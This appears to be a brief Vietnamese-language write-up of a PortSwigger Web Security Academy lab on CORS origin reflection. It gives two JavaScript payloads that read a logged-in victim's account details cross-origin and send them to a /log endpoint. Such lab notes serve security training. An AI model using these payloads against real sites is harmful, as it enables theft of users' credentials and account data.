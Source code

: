 # CORS

### 1. CORS vulnerability with basic origin reflection
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

Context: trusted all origin

![alt text](image.png)

Trong response có `Access-Control-Allow-Credentials: True` 

Test:

Thêm `Origin: https://example.com` vào request và ở response xuất hiện `Access-Control-Allow-Origin: https://example.com`

![alt text](image-1.png)

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

hoặc 
```js
<html>
    <body>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "Lab-id"

            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```